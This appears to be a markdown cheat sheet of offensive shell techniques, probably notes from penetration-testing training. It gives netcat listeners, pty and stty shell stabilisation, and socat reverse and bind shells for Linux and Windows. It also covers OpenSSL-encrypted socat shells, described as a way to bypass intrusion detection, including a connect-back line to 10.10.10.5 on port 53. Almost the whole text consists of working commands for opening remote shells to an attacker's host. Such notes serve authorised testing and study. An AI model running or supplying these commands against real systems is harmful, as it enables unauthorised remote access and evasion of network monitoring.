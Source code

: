 `https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet` | more shells
`https://github.com/danielmiessler/SecLists` | contains some useful code for obtaining shells
--
when using a listener (nc -vlnp <port>) it is a good idea to use a well known port as it is more likely to get past outboud firewall rules on target but you will need to use sudo
--
**shell stabilisation**
--
python:
1. `python3 -c 'import pty;pty.spawn("/bin/bash")'`
2. `export TERM=xterm` | gives us common commands like clear
3. `stty raw -echo; fg` | turns of own terminal echo (access to autocompletes arrow keys and ctrl c to kill processes) then foregrounds shell
4. `reset` | once shell dies your own terminal wont echo, use this command to reset
--
rlwrap (needs installing on kali):
1. `rlwrap nc -lnvp <port>` | gives a much more stable shell straight away
2. `stty raw -echo; fg` | turns of own terminal echo (access to autocompletes arrow keys and ctrl c to kill processes) then foregrounds shell
--
next:
1. open another teminal and `stty -a` and note down rows and columns
2. `stty rows <number>`
3. `stty cols <number>`
--
**socat shell**
--
capable of creating encrypted shells - USED TO BYPASS IDS
--
reverse:
`socat TCP-L:<port> - ` | basic reverse shell listener
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` | windows connect back
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"` | linux connect back
bind:
`socat TCP-L:<PORT> EXEC:"bash -li"` | linux listener
`socat TCP-L:<PORT> EXEC:powershell.exe,pipes` | windows listener
`socat TCP:<TARGET-IP>:<TARGET-PORT> -` | bind connect
--
**socat fully stable linux shell (target needs socat installed or upload binary for special shell)**
--
`https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true` | precompiled library
--
`socat TCP-L:<port> FILE:`tty`,raw,echo=0` | listener can be connected to with any payload
`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane` | special listener fully stable functioning shell, with errors and all
`-d -d` | increase verbosity for experiemntal use or if its not working correctly
--
**encrypted socat shells**
--
replace TCP with OPENSSL
--
1. generate certificate | `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
2. merge file outputs into single .pem file | `cat shell.key shell.crt > shell.pem`
3. setup reverse listener | `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
CERTIFICATE MUST BE USED ON WHICH DEVICE IS LISTENING
4. connect back | `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`
same for a bind shell, just swap listner and bind, bind requires pem file to be sent across
--
`socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0,FILE:`tty`,raw,echo=0 -` | listener
`socat OPENSSL:10.10.10.5:53 EXEC:"bash -li",pty,stderr,sigint,setsid,sane` | connect